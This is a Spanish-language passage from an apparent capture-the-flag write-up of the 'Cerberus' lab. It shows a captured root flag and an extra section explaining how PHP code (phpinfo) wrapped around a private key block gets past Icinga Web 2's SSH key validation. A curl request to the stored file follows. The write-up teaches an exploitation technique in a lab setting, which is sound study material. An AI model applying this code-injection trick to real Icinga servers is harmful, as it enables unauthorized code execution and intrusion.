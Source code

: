 ```bash
               2 Dir(s)   6,290,202,624 bytes free

C:\Users\Administrator\Desktop>type root.txt
type root.txt
665db25824417950d53186a9a5******
```

## Extra

El estándar de las llaves privadas SSH define que cualquier otra cosa que no sea la llave será tomada como simples metadatos de esta, por lo que introducir algo como esto en el campo de las llaves SSH del Icinga Web

```php
<?php 
  phpinfo();
  /*
-----BEGIN PRIVATE KEY-----
MIIEvAIBADANBgkqhkiG9w0BAQEFAASCBKYwggSiAgEAAoIBAQChdUkYvmNIdceg
nB8K0s37C/L0ZQsbseA+iOyOQfVbcm7bN3Aj0kUoIZyOJrInhHdoMqbVY5o3wjyA
B7jZk2t0dkX/vy3sVcHaH4x9a32mIndAiSIaerL/WgSGVRmrU1x80ytuKm0uLWyU
fq9NZed2L/L2Ptodpv8kSAkb5l80vxErBg4pOucAhOzEBX78XvopM00iGw/C4SYx
XPLX5mwBOS+wM/yav9ZKkJHoRExi8yzpHBXeoMM3hTUEeKTuC6wlJpUwtg2Z7XkD
EsZVvYLpYO9yKGyvtpYe1/+Ndy1SYKXIGSMQmjODDb4PL9JdFrqnoccGY1aMAyK8
ZjoUM2RzAgMBAAECggEABpBA2UooDr0xpnmiQ2uKvGlhxjCeBnwGfH75dYEAleft
fL42B1FtcUezLbjXUNxFibgBaIxPgR5wHNjzg+4bwKoW3LeAs5T64pXvZ/Z+LvTu
Dx1kBFqM5ezatpFFZV29VUUKWhn3F+5Nyy2T4nFsOuA7yr8xrmHoXlO1VxaC3p8o
mCh4YiJ4/hwFyTY4HJLKQw0yZcscLjE+9zAIkVQsJukwgjGe1xOu8WqZWWmYwL/H
TnIDF2aUXrBlNQ1RIZUgClAG0djRg0IjlagaFXabMhpuyEct67bs69uKau7xrkFb
3wkEjlm9SaMQn/fKXr5iz9Upc5Yl5t/xQqNT0THhNQKBgQDPp48DqAr8UQaayKAS
6h5lblXGWrom8EmvvsF5/pS5+XaX7xbyZgJa6n8SbIwayDYa5K98znEgPMpkrgGe
xYfuFXsaH07ZHt+OOSXfpgcBEUsnLPft4qz2G7kuOdbmFXhuUVsyKCGxfrT96rbv
fQc9OrXNgaQ3oR/H5n3wJJt3xwKBgQDHDF8DuF9rymnIdF+DeSBLZXosmWYRnacw
tWwLB/rU83fj9wojjgmhpD1/awl8cQAamIhQ/O+Ev9EqK8hYweG9H09htlxL1tZ8
/lMaEoHd2KId6hFTtve5JQMFbQ4hW/jwsAnPuLvOQqSrKN5TK1KONEd5ImOIMrLI
yXSNeBYl9QKBgGEwChZrAuE+xvmQpqLTonBUqJ6SfgeVdNdlT0ZaqZ81K5VGmJXQ
uo90qw6jcRtj0zbZC209beLpsMxYSHfX+ZurwBbkylGCSp1VD+3R1ftg7ayjNlLH
Qa5aIVyKQ5MiP2BagXVDJSnepLUmsoH6IXY90TMi1woWRjqYHR9U8tKnAoGAdkfD
rlJBYaxGb/e3SkkQB72lfBsrrAwi7a7hJSz4wNJsy+pg+//LeWI/qRfR60C67xL0
7itfqWLSyFx8EUIlAl04rrfO4MIpct0uRK/6u/mfXGdbJIP1cO+te+vyGaCtrVju
e6Eq+MZhU9RVSNbVl+s5DaKBws1dsDMGL4rMnoECgYAitVrs3/KELS8FuGRP6m6G
zZAZkBg5TwnL+rxKbUErHPIv5CXyl0wHF4m7LiDgLDeJ1wE/2P0cpcOH8cDgR48d
yOJUy6Qxyc7Nnj1X13VLym3V3dJISKdVblFuQHnjn1r0hAyamy8Uid47nJ+f3ETi
o4FzNzpe/KNvKuBD8lnTXA==
-----END PRIVATE KEY-----
  */
?>
```

es completamente válido.

```bash
❯ curl -v http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/icingaweb2/ssh/justatest
*   Trying 10.10.11.205:8080...
* Connected to icinga.cerberus.local (10.10.11.205) port 8080 (#0)
> GET /icingaweb2/lib/icinga/icinga-php-thirdparty/etc/icingaweb2/ssh/justatest HTTP/1.1
> Host: icinga.cerberus.local:8080
> User-Agent: curl/8.1.2
> Accept: */*
> 
< HTTP/1.1 200 OK
< Date: Thu, 03 Aug 2023 22:32:52 GMT
< Server: Apache/2.4.52 (Ubuntu)
< Cache-Control: public, max-age=1814400, stale-while-revalidate=604800
```